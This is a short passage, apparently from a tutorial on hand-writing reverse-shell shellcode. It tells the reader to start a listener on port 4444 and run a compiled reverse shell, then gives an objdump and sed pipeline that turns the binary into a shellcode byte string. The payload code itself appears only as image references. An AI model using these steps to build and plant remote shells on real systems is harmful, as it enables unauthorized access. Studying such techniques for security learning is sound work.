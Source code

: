 ![compile shellcode 2](/assets/images/14/2021-10-16_13-57.png){:class="img-responsive"}       

Prepare listener on `4444` port and run:
```bash
./rev
```

![compile shellcode 2](/assets/images/14/2021-10-16_14-08.png){:class="img-responsive"}       

Perfect!

Then, extract byte code via some bash hacking and `objdump`:
```bash
objdump -d ./rev|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![get hex](/assets/images/14/2021-10-16_13-58.png){:class="img-responsive"}       
